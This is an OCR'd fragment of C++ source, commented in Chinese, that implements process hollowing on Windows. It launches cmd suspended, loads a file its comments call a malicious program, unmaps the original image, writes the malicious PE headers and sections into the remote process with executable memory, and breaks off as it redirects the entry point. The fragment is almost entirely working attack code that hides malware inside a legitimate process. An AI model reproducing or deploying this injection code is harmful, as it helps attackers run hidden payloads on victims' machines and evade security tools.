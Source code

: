 ```cpp
        (LPSTR)"cmd",
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        NULL,
        &si,
        &pi);
    
    //读取恶意程序的内容至本进程内存中
    hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
    FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
    CloseHandle(hFile);
    
    //获取恶意程序的文件头信息(Dos头和Nt头)
    pDosHeaders = (PIMAGE_DOS_HEADER)FileImage;  //获取Dos头
    pNtHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)FileImage + pDosHeaders->e_lfanew); //获取NT头
    
    //获取挂起进程的上下文
    GetThreadContext(pi.hThread, &ctx); 

    
 //获取挂起进程的映像基址
#ifdef _WIN64
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
    // 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
    // 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL);
#endif
    

    //判断文件预期加载地址是否被占用
    pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
    if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase)
    {
        NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
    }

    //为可执行映像分配内存,并写入文件头
    RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL);
    
    //逐段写入
    for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
    {
        pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
        WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL);
    }
    
    //将rax寄存器设置为注入软件的入口点
#ifdef _WIN64
```
